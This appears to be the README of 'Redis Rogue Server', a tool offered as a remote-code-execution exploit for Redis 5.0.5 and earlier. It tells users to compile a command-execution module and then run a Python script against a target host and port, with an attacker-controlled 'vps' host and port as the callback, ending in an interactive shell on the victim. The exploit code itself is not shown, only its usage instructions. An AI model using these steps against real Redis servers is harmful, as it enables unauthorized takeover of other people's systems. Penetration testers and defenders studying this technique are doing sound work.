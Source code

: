 # Redis Rogue Server

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
